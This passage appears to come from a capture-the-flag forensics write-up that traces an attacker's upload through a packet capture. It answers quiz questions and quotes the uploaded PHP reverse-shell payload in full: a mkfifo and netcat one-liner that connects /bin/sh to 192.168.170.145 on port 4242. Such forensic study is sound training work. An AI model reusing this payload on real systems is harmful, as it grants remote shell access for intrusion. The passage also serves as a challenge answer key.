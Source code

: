Looking through the packet capture record, we can clearly see _packet number 17_ records a POST request to `/development/upload.php`, which is most likely what we were looking for. This gives the answer to the first question in the task:

>  What was the URL of the page they used to upload a reverse shell? 
> 
> Answer: `/development/`

If we follow the TCP stream, we can see the contents of the file uploaded: 
![](revshell.png)

This gives us the answer to the next question:
> What payload did the attacker use to gain access?
>
> Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`
